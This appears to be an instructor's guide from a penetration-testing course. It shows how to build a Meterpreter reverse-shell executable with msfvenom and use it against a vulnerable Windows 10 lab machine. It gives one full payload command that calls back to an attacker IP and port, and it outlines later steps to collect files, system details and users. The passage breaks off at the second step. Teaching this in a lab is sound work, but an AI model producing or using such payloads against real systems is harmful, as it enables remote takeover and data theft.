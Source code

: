 In this section, we will simultaneously exploit vulnerabilities and create custom payloads that will establish Meterpreter sessions.

* Typically, attackers deliver payloads via phishing emails or other social engineering tactics. When an unsuspecting user clicks a link, a malicious file is downloaded onto their machine.

* For the following demonstration, we will switch over to the Windows 10 machine after we create the custom payload on our Kali machine. 

* We will assume that the executable was downloaded onto the Windows machine, which we should see in the Downloads folder.

In the following demonstration, we will complete the following steps: 

- Use our Kali machine to create a custom payload that we will use to exploit a vulnerable Windows host (DVW10).

- Create a Meterpreter shell on our Kali machine.

- Use the shell to remotely run commands once the payload is executed. 

  * Specifically, we will use commands to search for all JPG pictures in the vulnerable Windows host.

  * We will also gather system information, application information, and currently logged-on users.

Do not worry about the syntax of the specific payload or the tool that we used to create this payload, `msfvenom`. We will cover custom payloads in the next class.

Pause to see if students have any questions before getting started.

#### Meterpreter Demonstration

1. First, we'll make a malicious custom payload in Kali Linux. 

  Run the following command and reiterate that we will be covering the syntax of custom payloads in the next class: 

   - `msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.0.8 lport=4444 -f exe > hack.exe`

      - This command will create a malicious `hack.exe` file. 


  After the command is run, run `ls` to confirm that the malicious `hack.exe` file has been successfully created.

   ![MSF 1](Images/MSF_1.png)


2. Launch the DVW10 VM and confirm that the malware file is on the machine. 
